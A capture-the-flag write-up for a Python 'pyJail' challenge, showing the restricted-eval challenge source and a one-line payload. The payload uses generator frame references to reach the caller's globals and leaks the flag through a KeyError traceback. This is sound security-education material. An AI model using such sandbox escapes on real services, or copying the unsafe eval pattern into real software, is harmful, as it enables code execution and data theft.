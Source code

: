 ## pyJail

### Description
Make your flag generator!

### Source
```python
import string

flag = open("./flag.txt").read()
code = input("makeflag> ")[:100]

if any(c not in string.printable for c in code):
    print("🙅‍")
elif "__" in code:
    print("__nope__")
else:
    if flag == eval(code, {"__builtins__": {}}, {"__builtins__": {}}):
        print("Oh, you know flag")
    else:
        print("Nope")
```

### Exploit
This challenge is a python jailbreak from restricted `eval` function. \
Our goal is to get `flag` value, which is not accessible in `eval` directly. \
However, we can access it using python's generators.

Python's generator has `gi_frame.f_back` which references previous function frames, even before `eval`. \
As it is only accessible while the generator is running, we should make a code that defines a generator accessing `flag` and unpacks the generator.

Also, we should leak the value of `flag`, as the server only prints `"Oh, you know flag"` message. \
In Dockerfile, it is shown that `stderr` is also printed in `socat`. \
Thus, we can simple leak any string using `{}[blabla]` as it may make error like `KeyError: 'blabla'`.

As a result, this code can leak `flag`: 
```
[a:=[],a.append({}[b.gi_frame.f_back.f_back.f_globals['flag']]for b in a),*a[0]]
```

Then, the server responds:
```
makeflag> [a:=[],a.append({}[b.gi_frame.f_back.f_back.f_globals['flag']]for b in a),*a[0]]
Traceback (most recent call last):
  File "/mnt/h/sctf2023/files/pyjail/jail.py", line 11, in <module>
    if flag == eval(code, {"__builtins__": {}}, {"__builtins__": {}}):
  File "<string>", line 1, in <module>
  File "<string>", line 1, in <genexpr>
KeyError: 'SCTF{i_d0nt_w4nt_pyjail_anymore}\n'
```

`flag` is `SCTF{i_d0nt_w4nt_pyjail_anymore}`